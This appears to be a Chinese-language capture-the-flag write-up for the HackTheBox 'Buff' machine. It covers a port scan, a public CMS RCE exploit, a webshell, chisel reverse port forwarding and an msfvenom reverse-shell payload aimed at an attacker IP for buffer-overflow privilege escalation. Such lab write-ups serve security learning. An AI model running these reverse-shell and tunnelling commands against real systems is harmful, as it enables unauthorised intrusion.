










## 端口扫描

```bash
┌──(kali㉿kali)-[~/workspace/buff]
└─$ sudo nmap  --min-rate 4444 -p- 10.10.10.198
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-21 06:02 EDT
Nmap scan report for 10.10.10.198
Host is up (0.33s latency).
Not shown: 65533 filtered tcp ports (no-response)
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```
扫到两个端口，一个说是http-proxy
那么直接用代理访问下7680

没问题

## web渗透

这有个cms泄露
搜下nday

有个rce

直接拿脚本下来用

远程下nc（这里用powershell那个下载，webshell需要base64编码一下）
写个webshell找文件，连上哥斯拉

找到一个exe
搜索历史漏洞

## 提权


可以看到poc攻击的是该exe运行的8888端口，此时靶机的8888端口确实是开着的
那么利用该poc

### 端口转发
要利用poc需要使用到端口转发
这里使用的是`chisel.exe`

首先在攻击机开启端口监听
`chisel server --reverse --port 9001`

转发靶机端口
`chisel.exe client <kaliIP>:9001 R:8888:localhost:8888`
查看是否成功转发
netstat -anlp |grep 8888

## 溢出提权
端口转发后
根据poc的payload
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.18.16 LPOR=4444 -b '\x00\x0A\x0D' -f python
生成payload替换py脚本中的payload
然后运行py脚本
